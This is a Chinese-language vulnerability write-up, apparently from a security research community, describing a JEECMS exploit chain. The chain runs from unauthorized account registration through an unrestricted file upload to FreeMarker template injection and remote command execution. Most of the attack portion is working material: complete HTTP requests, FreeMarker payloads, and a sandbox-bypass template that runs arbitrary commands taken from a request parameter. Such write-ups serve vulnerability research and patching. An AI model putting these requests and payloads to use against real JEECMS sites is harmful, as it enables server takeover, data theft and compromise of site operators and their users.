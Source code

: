 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/oXIUMQwn9913Rp8LWZcxcQ)

**本文首发于****奇安信攻防社区**  

**社区有奖征稿**

· 基础稿费、额外激励、推荐作者、连载均有奖励，年度投稿 top3 还有神秘大奖！

· 将稿件提交至奇安信攻防社区（点击底部 阅读原文 ，加入社区）

[点击链接了解征稿详情](https://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489051&idx=1&sn=0f4d1ba03debd5bbe4d7da69bc78f4f8&scene=21#wechat_redirect)

### **0x01 前言**

CMS 对用户输入校验不严，攻击者可以配合前台任意文件上传和服务端模板注入执行任意代码，从而控制服务器权限。

### **0x02 任意注册**

首先需要先登录会员。如果站点正常开放会员注册的话，直接注册即可。

但对于一种更严格的情况，就是当站点关闭会员注册时，需要通过别的手段来登录。这里可以利用第三方登录的功能，通过 / thirdParty/bind 接口可以实现注册并且能够直接登录（该接口在关闭第三方登录时仍旧有效）。

```
POST /thirdParty/bind HTTP/1.1
Host: 192.168.17.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Redirect-Header: false
X-Requested-With: XMLHttpRequest
Content-Length: 80
{"username":"user123456","loginWay": 1, "loginType": "QQ", "thirdId": "abcdefg"}
```

username 和 thirdId 参数可以随意设置，请求成功后就可以获得登录凭证（JSESSIONID 或 JEECMS-Auth-Token）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31V3eeE5TreENs9LqnKeehUtNkbClVDgGictRLWplU5YgliamrbAibnqTLIQ/640?wx_fmt=png)

### **0x03 任意文件上传**

/member/upload/o_upload 接口允许会员向服务器上传文件，系统主要通过 UploadService.doUpload() 实现上传功能，但它没有对后缀名进行有效检查，所以攻击者可以上传任意后缀的文件，上传路径会回显在结果中（目录为 / u/cms/www/，文件名随机，后缀用户可控）。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31V2GnJIwCnF8x3BCv0Ln18hWe2RswF2cXZwUfagETrs4icaVFTFRS3edQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31Vp5AtagJzbhb8WSx18JeDX0z6Chroqjicn9ByG28HIPHfIHd0gMteruw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31VznCFZnPeRiajADsZ0ASdkuyicRVvPbYxJZeDN6So6WkhWtZZrWrMlicyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31Vp5AtagJzbhb8WSx18JeDX0z6Chroqjicn9ByG28HIPHfIHd0gMteruw/640?wx_fmt=png)

根据接口直接上传

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31Vcxd1Ut1G3tK5H729ViaJD4Nlx7Dt89vF9tWpMhYvsBQ3DKrfRrMUZNA/640?wx_fmt=png)

测试发现，上传 jsp 文件是不能被解析的，而且由于目录固定，也不能向类加载路径上传 jar 文件，要想执行代码的话，得进一步借助 FreeMarker 模板。

### **0x04 模板注入**

FrontCommonController 会根据请求 /{page}.htm 的 page 参数，生成模板文件的路径。FrontUtils.getTplAbsolutePath() 会将 page 参数中的 “-” 替换成 “/”，FrontUtils.frontPageData() 进一步在结果的前部拼接上模板目录（/WEB-INF/t/cms/www/default）、在后部拼接上后缀（.html）。我们可以构造适当的 page 参数，使得能访问到上传的模板文件，比如 /..-..-..-..-..-u-cms-www-20210X-121948454xbn.htm 对应到文件 / u/cms/www/20210X/12194845

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31Vx9kFx9IRemmT5Zvu9m3yiaxotPKQulTyyzDkD1FnCZbhS92xL9Yqheg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31V4lzRlXdUf9QUpVdulXmJCkicFXRNaUjxiaP539nrtBcQDwcyUh6JS5qw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31VDLLt819Aia7CdMWT5xJCOfiazvW61AQx0Y4SekOkVCjB6E6OvXws8oLA/640?wx_fmt=png)

接下来的关键是如何利用 FreeMarker 执行代码。

FreeMarker 提供了很多内建函数，使得模板开发更加灵活，但也增加了危险性。

new 内建函数用于实例化实现了 TemplateModel 接口的类，FreeMarker 自带了几个符合要求的类，可以用于执行代码，用法如下：

```
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

但是，FreeMarker 也提供了相应措施来限制这些类的使用，通过 Configuration.setNewBuiltinClassResolver(TemplateClassResolver) 可以限制 new 内建函数对类的访问。官方提供了三个预定义的解析器：

UNRESTRICTED_RESOLVER：简单地调用 ClassUtil.forName(String)。

SAFER_RESOLVER：和第一个类似，但禁止解析 ObjectConstructor，Execute 和 freemarker.template.utility.JythonRuntime。

ALLOWS_NOTHING_RESOLVER：禁止解析任何类。

JEECMS 使用了 SAFER_RESOLVER 解析器，导致上述的几个类失效。

api 内建函数也常用于模板注入，通常利用它来获取类的 classLoader，以此来加载恶意类：

```
<#assign classLoader=Object?api.class.getClassLoader()>
${classLoader.loadClass("our.desired.class")}
```

但是 api 内建函数必须在配置项 api_builtin_enabled 为 true 时才有效，而该配置在 2.3.22 版本之后默认为 false，JEECMS 也没有手动去开启它。

new、api 两个常用的内建函数都失效了，这里就得利用到数据模型所暴露的对象了。这些暴露出的对象可以在模板中访问，可以通过它拿到 classLoader。

注意 FrontCommonController.java 第 80 行，调用了 FrontUtils.frontData()，用于向数据模型添加对象，FrontUtils.frontData() 的第 250 行添加了一个 CmsSite 对象，它就是一个合适的目标。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31VUZqd75lQUhBw3wFoNyaiaa0JjVbL440yb4IA5GXrpFhp4Grm0LPl6qw/640?wx_fmt=png)

由于 FreeMarker 内置了一份危险方法名单 unsafeMethods.properties，禁用了很多可用的方法，下面列举了部分：

```
java.lang.Class.getClassLoader()
java.lang.Class.newInstance()
java.lang.Class.forName(java.lang.String)
java.lang.Class.forName(java.lang.String,boolean,java.lang.ClassLoader)
java.lang.reflect.Constructor.newInstance([Ljava.lang.Object;)
java.lang.reflect.Method.invoke(java.lang.Object,[Ljava.lang.Object;)
```

很多获取 classLoader 的途径被封禁，这导致我们不能直接通过 site.getClass().getClassLoader() 拿到类加载器，但我们可以利用 site.getClass().getProtectionDomain().getClassLoader()，因为 ProtectionDomain.getClassLoader() 不在黑名单中。

Constructor.newInstance 被禁使得我们不能直接实例化对象，Method.invoke 被禁使得我们不能直接调用方法。这里要做的是寻找一个类的静态成员对象（public static final），然后执行它的静态方法。

FreeMarker 自带的 ObjectWrapper 类就是一个不错的选择，它的 DEFAULT_WRAPPER 字段是一个实例化后的 ObjectWrapper 对象，而 ObjectWrapper 的 newInstance 方法（继承自 BeansWrapper）可以用于实例化一个类，我们只需要向它传入被禁用的 freemarker.template.utility.Execute 进行实例化，返回的对象就可以直接用于执行系统命令。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31VCuYYZVd18Mvad5AjUMWu40iasQwwRNZr5WLlzhALF2Tnj1g1YohvFmw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31Vp6rIicyP5M6tk1m06EjRY9fyvgPibvBLCiaPkSPEP3Z9F4cRuCFCb1YBg/640?wx_fmt=png)

完整的模板可以这样写，通过控制 http 请求的 cmd 参数就可以执行任意命令：

```
${site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.utility.Execute"), null)(cmd)}
```

### **0x05 配合利用 - RCE**

结合文件上传, 上传成功后，访问相应 URL 执行系统命令：

```
POST /member/upload/o_upload HTTP/1.1
Host: 192.168.17.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:84.0)  Firefox/84.0
Accept: text/html,application/xhtml+XML,application/XML;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
JEECMS-Auth-Token: eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJ1c2VyMTIzNDU2IiwiY3JlYXRlZCI6MTYxMDQ0MDA5NzA4NywidXNlclNvdXJjZSI6ImFkbWluIiwiZXhwIjoxNjExMzA0MDk3fQ.12x-PtfuHIIC3aF7vV7kocd6KRwZr72SVUxbm74FdjD2WHKZ9IZm1n0cVMZdVgoFuzLuF4a8DKqmFhYX07mc5g
Content-Type: multipart/form-data; boundary=---------------------------1250178961143214655620108952
Content-Length: 604
Connection: close
Upgrade-Insecure-Requests: 1
-----------------------------1250178961143214655620108952
Content-Disposition: form-data; 
Content-Type: text/html
${site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(site.getClass().getProtectionDomain().getClassLoader().loadClass("freemarker.template.utility.Execute"), null)(cmd)}
-----------------------------1250178961143214655620108952
Content-Disposition: form-data; 
File
-----------------------------1250178961143214655620108952--
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31VBR3snPtUia7nAdrxIaMAcxHvgibCtiaVlicuQ6p0YPzvmgIVPlNOxVJl8g/640?wx_fmt=png)

END

  

【版权说明】本作品著作权归带头大哥所有，授权补天漏洞响应平台独家享有信息网络传播权，任何第三方未经授权，不得转载。

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE4HTLHLvZ0oAuHqsibiaibC31VrB0mlJM9ichSTphBksuotgPfzAJclZN2fFodrhrZzNayecIopx8zNCg/640?wx_fmt=jpeg)

**带头大哥**

  

一个神秘且优秀的补天白帽子

**敲黑****板！转发≠学会，课代表给你们划重点了**

**复习列表**

  

  

  

  

  

[特斯拉 TBONE 漏洞分析](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247490085&idx=1&sn=2a9d747c2fe5de3f04aecfb3d8583a35&chksm=eafa5269dd8ddb7f8196c3677df6056c0b71082cef769b9b56c9e0e462a06924d24a201f38a0&scene=21#wechat_redirect)[](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489568&idx=1&sn=56beddb5ef58d9556d75bbd8dd146dd2&chksm=eafa506cdd8dd97a9420b312770c8ea1bdeb0394ce38ef54834e60e91c0b404f934ac494ca3c&scene=21#wechat_redirect)

  

[关于影响超 600W 设备的通用型路由循环漏洞分析](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489890&idx=1&sn=fcf3b50d242f2363c937094ca284a32f&chksm=eafa512edd8dd83856478b212ea35f84071e3d931aee6fdf75324139daea83a42983189e936e&scene=21#wechat_redirect)

  

[某邮件系统后台管理员任意登录分析](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247490009&idx=1&sn=ea120cc287ad0735237a831a7b4847cb&chksm=eafa5195dd8dd8837c3d39040368110d77d2b30f0251fa2f7e4d5e656779249b1d30fce329a0&scene=21#wechat_redirect)

  

[代码审计之 eyouCMS 最新版 getshell 漏洞](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489781&idx=1&sn=a2d0ccd466dfa95067f223c8318a316d&chksm=eafa50b9dd8dd9af45ef4fcf23074aeecc196dc72b3ff447282a9e6ea9904dcc08fe72430d30&scene=21#wechat_redirect)

  

[某行业通用流程管控平台 RCE 之旅](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489976&idx=1&sn=a7b450efb495ab424f77d06fe4c2d1ad&chksm=eafa51f4dd8dd8e21cf2a3311161db98c8d5a53951e7d548f62112b49712e978501f0cc5a699&scene=21#wechat_redirect)

  

[某开源 ERP 最新版 SQL 与 RCE 的审计过程](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489992&idx=1&sn=6a510d12d06ccf4a365f41b386a3e197&chksm=eafa5184dd8dd892fd3e9c8779571939b6dc6465cf86ac8e1d094b3994302500c394fb12ecfe&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJLFcmlcnz38EApnEkFiaISicklcwbo3gnI17t54PqyYOE8LV4yczIfjdqw/640?wx_fmt=png)  

  

分享、点赞、在看，一键三连，yyds。

![](https://mmbiz.qpic.cn/mmbiz_gif/FIBZec7ucChYUNicUaqntiamEgZ1ZJYzLRasq5S6zvgt10NKsVZhejol3iakHl3ItlFWYc8ZAkDa2lzDc5SHxmqjw/640?wx_fmt=gif)

  

点击阅读原文，加入社区，获取更多技术干货！